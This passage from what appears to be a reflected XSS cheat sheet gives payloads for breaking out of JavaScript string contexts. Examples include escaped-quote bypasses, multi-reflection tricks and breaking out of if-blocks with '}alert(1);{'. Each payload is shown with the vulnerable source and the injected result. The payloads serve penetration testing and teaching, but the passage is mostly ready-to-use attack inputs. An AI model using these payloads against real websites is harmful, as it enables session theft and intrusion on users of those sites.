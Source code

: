 The quotes are escaped by a backslash so we need to bypass them

* After input the payload

```html
<script>
    var sitekey = '\\'alert(1)//';
</script>
```

9. Use when there’s multi reflection in the same line of JS code

```html
/alert(1)//\
/alert(1)}//\
```

* Example source code

```html
<script>
    var a = 'REFLECTED_HERE'; var b = 'REFLECTED_HERE';
</script>
```

* After input the payload

```html
<script>
    var a = '/alert(1)//\'; var b = '/alert(1)//\';
</script>
```

10. Use when input inside a string delimited value and inside a single logical block like function or conditional (if, else, etc).

```html
'}alert(1);{'
\'}alert(1);{// 
```

* Example source code

```html
<script>
    var greeting;
    var time = 1;
    if (time < 10) {
    test = 'REFLECTED_HERE';
  }
</script>
```

* After input the payload

```html
<script>
    var test;
    var time = 1;
    if (time < 10) {
    test = ''}alert(1);{'';
  }
</script>
```
